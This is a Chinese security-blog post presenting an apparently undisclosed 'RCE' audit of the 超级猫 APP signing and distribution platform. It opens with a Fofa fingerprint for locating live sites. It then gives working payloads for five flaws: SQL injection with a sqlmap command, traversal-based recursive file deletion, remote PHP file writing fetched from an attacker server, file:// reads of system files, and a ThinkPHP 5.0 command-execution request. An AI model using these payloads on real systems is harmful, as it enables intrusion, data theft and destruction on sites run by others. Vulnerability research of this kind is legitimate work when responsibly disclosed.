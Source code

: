 #  (0day)超级猫签名APP分发平台RCE漏洞审计   
原创 Mstir  星悦安全   2024-07-27 11:39  
  
## 0x00 前言  
## 超级猫超级签名分发平台是一个安卓苹果APP分发平台，能够对所有安卓苹果的APP进行签名分发，使所有自行开发的APP能够签名使用，包括登录注册等功能，还提供有SDK  
##   
  
**Fofa:"/themes/97013266/public/static/css/pc.css"**  
  
************  
**开发框架:ThinkPHP，ThinkAdmin Debug:True**  
## 0x01 前台SQL注入漏洞  
位于 /user/controller/InstallController.php 控制器的 downfile_ios 方法通过$_GET传入参数id 赋值给$url变量，然后直接被插入到SELECT查询字句中，因为$_GET为原生函数，所以TP的路由并没有过滤它.```
//ios下载
public function downfile_ios()
{

    //$url=$_SERVER['HTTP_REFERER'];
    $url = $_GET['id'];
    //  $url='http://y14.com/D614';
    $result = Db::name("user_posted")->where("er_logo='$url' and endtime>" . time())->find();
    $this->assign('result', $result);
    echo $this->fetch('../app/user/view/install/downfile_ios.xml');
    exit;
  }
```  
  
**因此处并无鉴权，所以可直接注入，Payload:**  
```
GET /user/install/downfile_ios?id=') UNION ALL SELECT NULL,NULL,CONCAT(IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- - HTTP/1.1
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 127.0.0.1:81
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJp0J4IHwfXoibxoO5YLjTwZsmH0DLRmEYoBNqV18jyicEvbuk4Rel09IQp3AUWBtABOZFwsiaMyXGQ/640?wx_fmt=other&from=appmsg "")  
  
**python sqlmap.py -u "http://127.0.0.1:81/user/install/downfile_ios?id=*" --level=3 --dbms=mysql**  
  
****## 0x02 前台任意文件删除漏洞  
  
**位于 /portal/controller/IndexController.php 控制器中的deldir 方法存在unlink函数，且对传参无明显过滤，导致漏洞产生!******  
```
function deldir($path){
  //如果是目录则继续
  if(is_dir($path)){
    //扫描一个文件夹内的所有文件夹和文件并返回数组
    $p = scandir($path);
    foreach($p as $val){
      //排除目录中的.和..
      if($val !="." && $val !=".."){
        //如果是目录则递归子目录，继续操作
        if(is_dir($path.$val)){
          //子目录中操作删除文件夹和文件
          $this->deldir($path.$val.'/');
          //目录清空后删除空文件夹
          @rmdir($path.$val.'/');
        }else{
          //如果是文件直接删除
          unlink($path.$val);
        }
      }
    }
  }
}
```  
  
**通过传入 ../即可跨到根目录上，并递归删除根目录目标文件夹中的所有文件**  
  
**Payload:**  
```
/portal/Index/deldir?path=../1/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJp0J4IHwfXoibxoO5YLjTwibrcLmEhdEutWicRsE8s1fCb364PNnEFIOAlaAia7SYJZtrE3xVaXx0uQ/640?wx_fmt=other&from=appmsg "")  
## 0x03 前台远程文件写入漏洞  
  
**位于 /user/controller/ProfileController.php 控制器的 Download 方法通过curl_exec函数访问网络文件，并且将文件内容保存在任意目录中，导致漏洞产生，通过传入$url 赋值远程文件，$path赋值要写入的文件路径.**  
```
//下载图片
public function download($url, $path = 'upload/img/')
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 30);
    //关闭https验证
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

    $file = curl_exec($ch);
    curl_close($ch);
    $filename = pathinfo($url, PATHINFO_BASENAME);
    $resource = fopen($path . $filename, 'a');
    fwrite($resource, $file);
    fclose($resource);
    return "/" . $path . $filename;
  }
```  
  
**注意这里需要先登录，这处可以直接注册的.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJp0J4IHwfXoibxoO5YLjTw2iaLwswNe8QWic3zqpVktqxksvrtgkhcRuyqyTnmOxrvDj02ib4lGfY1w/640?wx_fmt=other&from=appmsg "")  
  
**然后我们使用云服务器，在其根目录放一个111.php 内容如下**  
```
<?php
echo '<?php phpinfo();?>';
?>
```  
  
**之后使用Payload:******  
```
/user/profile/download?url=http://云服务器地址/111.php&path=1
```  
  
**即可将远程文件写入到public目录的1111.php 中.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJp0J4IHwfXoibxoO5YLjTw9frFoGPgt433DaA42ym14AryAGx4aibok5XtBqfH9TxiaMJUDTvwEOWw/640?wx_fmt=other&from=appmsg "")  
****  
**这里也是一处任意文件读取的地方，可以直接使用file:///协议读取本机上的任意文件，但遗憾的是不支持伪协议**  
  
**Payload:**  
```
/user/profile/download?url=file:///C:/windows/win.ini&path=1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJp0J4IHwfXoibxoO5YLjTwBP5EliaKRmT5IerlQnqtd59us744mDAkXBIvCSaib7icRQuGXD0MsgPGA/640?wx_fmt=other&from=appmsg "")  
## 0x04 前台任意文件读取漏洞  
位于 /user/controller/ProfileController.php 控制器的 filesd 方法存在curl_exec函数，且传参均可控，导致漏洞产生```
//获取文件信息
public function filesd($file, $url)
{
    header("Content-type: text/html; charset=utf-8");

    // $filePath =dirname(__FILE__)."/../../../public/upload/app/".$file;
    $filePath = "upload/app/" . $file;
    $post_data = array(
      "package" => "@" . $filePath   //要上传的本地文件地址
    );
    $ch = curl_init();
    if (class_exists('\CURLFile')) {
      $post_data['package'] = new \CURLFile(realpath($filePath));
    } else {
      if (defined('CURLOPT_SAFE_UPLOAD')) {
        curl_setopt($ch, CURLOPT_SAFE_UPLOAD, FALSE);
      }
    }
    //关闭https验证
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_POST, 1);
    curl_setopt($ch, CURLOPT_POSTFIELDS, $post_data);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
  }
```  
  
**我们只需GET传入url和file参数即可(****注意这里也要登录)****Payload:**  
```
/user/profile/filesd?file=1&url=file:///C:/windows/win.ini
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJp0J4IHwfXoibxoO5YLjTw5eI0K8LDgpva8uibExALOSm9ia5JoodBWIusl6cfETuib64Qch8GNpSGw/640?wx_fmt=other&from=appmsg "")  
## 0x05 前台任意命令执行漏洞  
  
**由于TP版本为5.0.11 满足TP<5.0.24的历史命令执行漏洞，所以存在前台RCE漏洞，具体网上有文章，这里不分析了.**  
  
**Payload:**  
```
POST /index.php?s=captcha HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 67
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/index.php?s=captcha
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

_method=__construct&filter[]=system&get[]=whoami&method=get
```  
  
****  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转，RCE**  
  
**签名分发源码关注公众号发送 qm 获取**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  

